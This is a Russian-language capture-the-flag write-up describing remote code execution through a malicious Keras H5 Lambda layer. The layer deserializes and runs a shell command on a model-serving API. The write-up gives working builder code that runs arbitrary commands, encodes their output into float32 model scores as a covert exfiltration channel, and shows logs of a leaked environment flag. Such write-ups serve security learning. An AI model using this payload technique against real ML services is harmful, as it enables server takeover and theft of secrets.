

# BLACKQUIZ II — Writeup

> **Флаг:** `permctf{RC3_t3N53rFL0w_L4mBd4_3dede3dd}`
>
> **TL;DR:** внутреннее legacy-API принимает Keras H5-модели и исполняет их в TensorFlow 2.18 с tf-keras. Кладём shell-команду в Lambda-слой, кодируем stdout команды в выходные scores модели (3 байта на float32), читаем через `/visualize`. Флаг — в переменной окружения.

---

## 1. Разведка

После первого квиза кажется, что путь один — просто решать дальше. Но решать **весь** квиз целиком неоптимально даже для первого этапа.

Если порыться в исходниках, в `app.js` находится упоминание некоего `legacy_bot` — бота, отображающего комментарии:



Это должно вызвать подозрение (если не вызвало — вам надо лечиться :)). Значит, нужно получить его комментарий. Брутить квизы бесполезно — после пары попыток это становится очевидно. Правильный путь: дорешать квиз (LLM справляются хорошо). К 6-му квизу появляется комментарий от `legacy`, в котором он упоминает внутреннее API по адресу `/api/internal/solver/example`.

## 2. Внутреннее API

Открываем — и видим манифест:

```json
{
    "ok": true,
    "request_id": "<id запроса>",
    "format": "keras_h5",
    "example_model_url": "/static/legacy/solver_demo.h5",
    "example_builder": "/static/legacy/build_solver.py",
    "import_endpoint": "/api/internal/solver/import",
    "run_endpoint": "/api/internal/solver/run",
    "visualize_endpoint": "/api/internal/solver/visualize",
    "input_shape": [1, 512],
    "output_shape": [1, 8],
    "notes": [
        "Model ranks 8 candidates.",
        "Input is flattened candidate features.",
        "Output must contain 8 scores."
    ],
    "system_notice": {}
}
```

Скачиваем оба файла: `build_solver.py` — сборщик модели, `solver_demo.h5` — образец для тестов. Из билдера видно, что это TensorFlow Keras-модель в формате H5 с контрактами: вход `(1, 512)`, выход `(1, 8)`.

Окружение сервера вслепую подбирать до утра бессмысленно — берём хинт у автора:

| Компонент | Версия |
|---|---|
| Python | 3.10 |
| TensorFlow | 2.18.0 |
| tf-keras | 2.18.0 |

## 3. Уязвимость: RCE через Lambda-слой

Для tf-keras 2.18 существует известная проблема ([tensorflow#82214](https://github.com/tensorflow/tensorflow/issues/82214)): при десериализации H5-модели **Lambda-слой восстанавливает произвольный Python-код** из pickle. Важное для нас следствие — в модель можно упаковать RCE.

Модель загружается через import-эндпоинт:

```bash
curl -X POST \
  -F "model=@./solver_demo.h5" \
  -H "Cookie: blackquiz_sid=<ваша печенька>" \
  http://195.19.161.3:8007/api/internal/solver/import
```

При успехе в ответе `ok: true`, а на странице появляется форма для взаимодействия с моделью. `/run` запускает модель, `/visualize` показывает её выходы — последний нам и пригодится.

## 4. Канал эксфильтрации

Revshell из контейнера не поднимается (по крайней мере у меня), так что единственный надёжный способ вынести данные — **выходной вектор модели**: исполняем команду внутри Lambda, кодируем её stdout в 8 scores, декодируем на клиенте.

Два ограничителя:

- В **UI** числа обрезаются до 2 знаков после точки, в **API** — до 4. Читаем только API.
- Выход — это 8 чисел, а не байт. Но мантисса `float32` — ровно 24 бита, а значит **ровно 3 байта** представимы в одном score без потерь: `score = b0·65536 + b1·256 + b2`.

Итого: 8 scores × 3 байта = 24 байта за прогон. Один score отдаём под **sentinel** — константу `0x00C0FFEE` (12648430, точно представимо во float32). Sentinel в `cand_0` гарантирует, что полученные scores — свежий вывод именно нашей модели, а не кеш или чужой прогон. Полезная ёмкость — **21 байт за страницу**, дальше пагинация через offset, запечённый в closure.

```python
def build(path="solver.h5", cmd="cat /flag.txt", offset=0):
    with _quiet():
        import tensorflow as tf
        cmd, offset = str(cmd), int(offset)

        def wrapper(x):
            result = b""
            try:
                result = (__import__("subprocess")
                          .run(cmd, shell=True, capture_output=True).stdout)
            except:
                result = b""
            chunk = result[offset : offset + 21]   # литералы — никаких глобалов
            vals = [12648430.0]                    # sentinel
            for i in range(7):
                c = chunk[i*3 : (i+1)*3].ljust(3, b"\x00")
                vals.append(float(c[0]*65536 + c[1]*256 + c[2]))
            return x[:, :8] * 0.0 + vals

        inp = tf.keras.Input(shape=(512,), name="candidates")
        model = tf.keras.Model(
            inputs=inp,
            outputs=tf.keras.layers.Lambda(wrapper)(inp),
            name="my_solver",
        )
        model.save(path, include_optimizer=False)
    return path
```

Тонкости, без которых модель сервер не примет или молча сломается:

- **Ни одного модуля в closure** (`tf`, `np`) — иначе `cannot pickle 'module' object` на сериализации.
- **Ни одной глобальной переменной в теле wrapper'а** — глобалы не переживают marshal/pickle, на сервере будет `NameError` и импорт вернёт 400.
- Только `__import__` инлайн, литералы и примитивы из closure.

Rate limit не позволяет читать всё подряд — между страницами приходится ждать 30–60 секунд, поэтому всё обёрнуто в автоматизацию с retry и `Retry-After`.

## 5. Автоматизация

Скрипт-REPL (полный код — в конце): собирает модель с запечённой командой, загружает, дергает `/run` (формат: `{"client_request_id": "lp-<base36ms>-<rand6>", "count": 1..3}`), забирает scores из `/visualize`, декодирует, показывает страницу, по Enter читает следующую.

Флаг, как обычно это бывает, оказался не в рабочей папке (я её просмотрел всю), а в **переменной окружения**:

```
solver> \env | grep WORKER_FLAG
[*] import raw: {"ok": true, "request_id": "req_b39efe125a0725a9", "model_id": "m_c158",
    "status": "accepted", "sha256": "b4fd06b...", "input_shape": [-1, 512],
    "output_shape": [1, 8], "layers": [{"name": "candidates", "type": "InputLayer"},
    {"name": "lambda", "type": "Lambda"}]}
[*] run raw: {"ok": true, "solved": 3, "failed": 0, "score_awarded": 360,
    "total_score": 37080, "request_id": "req_27feb9481faaf543"}
[*] visualize raw: {"ok": true, "model_id": "m_c158", "scores": [
    {"candidate_id": "cand_0", "score": 12648430.0},
    {"candidate_id": "cand_5", "score": 7366002.0},
    {"candidate_id": "cand_6", "score": 7168884.0},
    {"candidate_id": "cand_7", "score": 6716242.0},
    {"candidate_id": "cand_3", "score": 6243916.0},
    {"candidate_id": "cand_1", "score": 5721938.0},
    {"candidate_id": "cand_2", "score": 4932946.0},
    {"candidate_id": "cand_4", "score": 4278077.0}],
    "elapsed_ms": 8.23, "request_id": "req_0601c8b650e9d129"}
WORKER_FLAG=permctf{R
  [offset 21 | Enter — след. страница | :all — до конца]

solver> :all
C3_t3N53rFL0w_L4mBd4_3dede3dd}

solver> :redo 0
WORKER_FLAG=permctf{RC3_t3N53rFL0w_L4mBd4_3dede3dd}
```

## 6. Флаг

```
permctf{RC3_t3N53rFL0w_L4mBd4_3dede3dd}
```

## 7. Exploit
Файл с эксплоитом: [exploit.py](/exploit.py)
